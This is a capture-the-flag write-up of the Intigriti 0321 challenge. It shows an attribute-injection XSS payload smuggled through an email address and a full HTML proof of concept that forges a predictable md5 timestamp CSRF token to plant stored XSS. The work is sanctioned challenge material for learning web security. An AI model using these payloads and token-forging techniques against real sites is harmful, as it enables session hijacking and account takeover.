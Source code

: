 # Intigriti 0321 Challenge Writeup

First of all , how the website work is the website has notes that take input. Our input has generated to the `<p>` tag. I have entered html tags like `<script> , <h1>,` etc..
and it encoded all the html tags.  
  When I entered the notes as `https://google.com` , the response come with <a> tag. I tried to escape from the <a> tag and still it 
didn't work.  
  Then , I tried with `mgthura@test.com` it converted to <a> tag again.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit.PNG?raw=true)
  I tested to break out the <a> tag again with the payload `"mgthura"@test.com`.  
  The response
come with `<a href="mailto:" mgthura"@test.com"="">"mgthura"@test.com</a>` showing that  we've successfully injected to the tag. Still we can't use to escape from the <a> tag
just adding some event so the new payload will be `"onmouseenter=alert('flag{THIS_IS_THE_FLAG}');"@test.com`  
  By entering the new payload,
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit2.PNG?raw=true)
  It was still a self xss. The challenge said it can't be self xss.
  So we need to chain csrf to get a stored xss. I checked the csrf token and anaylsing which hash it is , seem to be md5 hash.
  Look at the first photo again, see what it is written with comment tag.  
  `<!-- page generated at 2021-03-29 12:38:35 -->`  
  By changing the time to timestamp , I got the digits `1617020646` and encrypting to md5.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/md5.PNG?raw=true)  
  Hence , we now how to bypass CSRF it's time to make a POC.  
    
  The csrf works liken when you open the page it will generate a token and you need to make a request with that generated token. So we've to open a new page in POC or by using iframe.
  ```<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js" integrity="sha512-Hmp6qDy9imQmd15Ds1WQJ3uoyGCUz5myyr5ijainC1z+tP7wuXcze5ZZR3dF7+rkRALfNy7jcfgS5hH8wJ/2dQ==" crossorigin="anonymous"></script>
<script>
function go(){
let w = window.open("https://challenge-0321.intigriti.io/",'');
setTimeout(function(){w.close();trigger();csrf.submit()},1000)
}
</script>

<h1 onclick=go()>Click me</h1>
<form name=csrf style="display:none" action="https://challenge-0321.intigriti.io/" method="POST">
<input id="csrfToken" type="hidden" name="csrf" value="" />
<input type="hidden" name="notes" value="&quot;onmouseenter=alert(&#39;flag{THIS_IS_THE_FLAG}&#39;);&quot;@test.com" />
<input type="submit" onclick="trigger()" value="Submit request" />
</form>
<script>

var d2 = Date.now();
console.log(d2);
let csrftoken = document.getElementById("csrfToken");

let trigger = () => {
let date = Date.now();
date = Math.floor(date / 1000)
hash = md5(date);
csrftoken.value = hash
console.log(date);
}
</script>
</body>

</html>
```
## Explantation of POC
First , I called a javascript that will encrypt the value to md5
`https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js`.  
The another script tag is opening a new window and submitting the request. The form is CSRF request , the last script is I take current timestamp with `Date.now()`.  
The timestamp includes millisecond and don't need it so removed by dividing 1000 for the decimal value I used Math.floor to remove that.
Now encrypt it with md5 , finally we got the csrf value.
Still the script is right but sometime it late a second when we hash the value. I asked my help friend to become a better script.  
You have to allow pop-up to use this script. https://raw.githubusercontent.com/mgthuramoemyint/mgthura/gh-pages/final.html
![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/2021-03-29%2020-07-56.gif?raw=true)
